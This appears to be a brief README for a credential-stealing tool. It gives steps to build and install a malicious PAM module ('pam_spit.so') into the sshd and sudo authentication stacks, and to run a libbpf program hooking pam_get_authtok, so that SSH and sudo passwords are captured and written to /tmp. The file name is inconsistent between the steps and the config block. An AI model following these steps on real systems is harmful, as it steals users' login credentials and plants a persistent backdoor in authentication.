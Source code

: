 # PAM MODULE INTERCEPT


* make
* sudo cp pam_spit.so /lib64/security/ <- depends on distro
* sudo vi /etc/pam.d/sshd <- for ssh
* sudo vi /etc/pam.d/sudo <- for sudo
* sudo vi /etc/pam.d/* <- etc etc

```
auth       substack     password-auth
auth       include      postlogin
auth       optional     spit_pam.so
```
* auth optional pam_spit.so <- line needs to be added before auth is complete usually after postlogin or something could also be put in common-auth
* written to /tmp





# LIBBPF Hooking pamget_authtok
* relies on some library todo check which one
* cd ./libbpf-bootstrap/examples/c/
* make spit
* needs research on static build
* sudo ./spit 
* creds written to /tmp
